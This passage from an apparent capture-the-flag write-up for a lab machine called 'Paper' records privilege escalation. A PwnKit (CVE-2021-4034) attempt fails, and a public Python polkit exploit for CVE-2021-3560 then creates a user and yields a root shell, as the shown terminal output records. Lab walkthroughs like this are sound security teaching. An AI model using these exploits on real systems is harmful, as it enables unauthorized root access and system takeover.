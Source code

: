#### CVE-2021-4034

The immediately apparent solution, to me, is the use of [PwnKit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034), the `pkexec` exploit discovered earlier this year (cve-2021-4034). However, when I tried to compile the exploit, kindly provided by [@bl4sty](https://twitter.com/bl4sty) on [haxx.in](https://haxx.in/exploits/), the process failed.

```none
[dwight@paper .hidden]$ gcc blasty-vs-pkexec2.c
/usr/lib/gcc/x86_64-redhat-linux/8/../../../../lib64/crt1.o: In function '_start':
(.text+0x24): undefined reference to 'main'
collect2: error: ld returned 1 exit status

[dwight@paper .hidden]$
```

I then uploaded the binary, precompiled, using SCP, but it appears that it has been patched on Paper.

```none
[dwight@paper .hidden]$ ./blasty-vs-pkexec2
[dwight@paper .hidden]$ # :(
```

#### CVE-2021-3560

However, [a different PolKit exploit written in Python](https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py) *is* functional on Paper:

```none
[dwight@paper .hidden]$ python3 a.py
**************
Exploit: Privilege escalation with polkit - CVE-2021-3560
Exploit code written by Ahmad Almorabea @almorabea
Original exploit author: Kevin Backhouse 
For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/
**************
[+] Starting the Exploit 

...

[+] User Created with the name of ahmed

...

[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root 

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

bash: cannot set terminal process group (3090): Inappropriate ioctl for device
bash: no job control in this shell
[root@paper .hidden]#
[root@paper .hidden]# cd /root
[root@paper ~]# cat root.txt 
!REDACTED
[root@paper ~]# 
```
